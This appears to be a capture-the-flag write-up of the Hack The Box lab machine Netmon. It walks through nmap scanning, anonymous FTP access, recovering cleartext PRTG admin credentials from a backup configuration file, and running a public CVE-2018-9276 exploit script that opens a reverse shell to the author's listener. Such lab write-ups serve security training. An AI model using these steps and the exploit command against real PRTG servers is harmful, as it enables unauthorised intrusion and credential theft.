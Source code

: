 # Netmon

## Recon
Started this box with my usual nmap command `nmap -sV -sC -Pn 10.10.10.152`

```
-sV: show service/version info
-sC: run default scripts
-Pn: treat host as online
```

After running this, we get the following output:
```
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

We can see that ftp is open, and allows anonymous login. So we log in as ftp and accesses Users to obtain the user flag. I attempted to log into Administrator but was not allowed access for the system own.


## Foothold/RCE

As I couldn't access the Administrator directory directly, I had a look at what other files and directories are on the machine. Inside Program Files (x86) I found PRTG Network Monitor. As I'm unfamilliar with this program, I googled it.

I found that this is a network monitor, the dashboard can also be accessed via 10.10.10.152:80 as listed in nmap. I then serached for known vulnerabilities anmd came across [CVE-2018-9276](https://github.com/A1vinSmith/CVE-2018-9276) and an associated exploit in this link. Reading the link, I saw there were default credentials to try, so before doing any more recon, I tried those with `python3 exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.8 --lport 9999 --user prtgadmin --password prtgadmin`. No luck.

The page also prompts users to search for credentials on the machine. I followed the link on the page to [this page](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) to see where PRTG stores its data.

I went back to my ftp session, and navigated to C:\ProgramData\ which was available, but just hidden. From here I dove down to Paessler/PRTG Network Monitor. I was met with a LOT of files and wasn't sure what to investigate further to obtain credentials. After some more googling I found [this post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) on reddit's sysadmin board which was prompting peole to delete any Configuration.dat files that may have leaked password in cleartext.

Going back to FTP, in this directory i saw the following files:
```
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
```

So I downloaded a copy of each through FTP and started to sift through them. PRTG Configuration.dat and PRTG Configuration.old did not hold any user credentials, however, when I searched for a password in PRTG Configuration.old.bak, I found:
```
<dbpassword>
         <!-- User: prtgadmin -->
         PrTg@dmin2018
            </dbpassword>
```

Bingo. Just what I was looking for. With creds in hand, I returned to 10.10.10.152:80 to login, however my password was not accepted. Looking back at the files I had found, I realised that the file I had obtained the password from was from 2018, whereas the rest were from 2019. I mad a slight adjustment, changing the password to `PrTg@dmin2019` and gained access to the dashboard. Now that I had a working username and password, I could launch the exploit I'd obtained from Github.

I booted the scripts back up again with `python3 exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.8 --lport 9999 --user prtgadmin --password PrTg@dmin2019` and was met with a shell shortly afterwards.

I was logged into C:\Windows\system32, but after navigating to C:\Users\Administrator\Desktop, I obtained the system flag as well.
